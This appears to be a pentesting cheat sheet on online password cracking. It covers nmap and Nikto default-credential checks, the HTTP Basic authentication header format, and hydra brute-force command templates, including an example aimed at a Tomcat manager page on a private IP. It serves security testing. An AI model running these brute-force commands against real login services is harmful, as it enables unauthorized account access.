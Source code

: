 # Online Password Cracking

## Table of Contents
* [HTTP/HTTPS](#httphttps)
   * [Default Passwords](#default-passwords)
   * [HTTP Basic Authentication](#http-basic-authentication)
   * [HTTP Form Authenticaton (POST)](#http-form-authenticaton-post)
* [SSH](#ssh)
   * [Notable SSH wordlists](#notable-ssh-wordlists)
* [RDP](#rdp)


## HTTP/HTTPS

### Default Passwords

#### Nmap script
```
http-default-accounts: Tests for access with default credentials used by a variety of web applications and devices.
```

#### Nikto
By default, Nikto identifies default credentials in some common HTTP/HTTPS services (ex. Apache Tomcat)


### HTTP Basic Authentication
Web applications using Basic Authentication send user credentials in a request header with the following format:
```
Authorization: Basic base64(username:password)
```

**Tip:** ncrack appears to be the fastest, although any of the below tools work fine

#### hydra

##### HTTP Command layout
```
hydra -l/-L [USERNAME]/[USERNAME_FILE] -p/-P [PASSWORD]/[PASSWORD_FILE] "http-get://[IP_ADDRESS]:[PORT][URL_PATH]"
```

##### HTTPS Command layout
```
hydra -l/-L [USERNAME]/[USERNAME_FILE] -p/-P [PASSWORD]/[PASSWORD_FILE] "https-get://[IP_ADDRESS]:[PORT][URL_PATH]"
```

##### Example command
```
hydra -L userpass.txt -P userpass.txt "http-get://192.168.205.172:8080/manager/html"
```
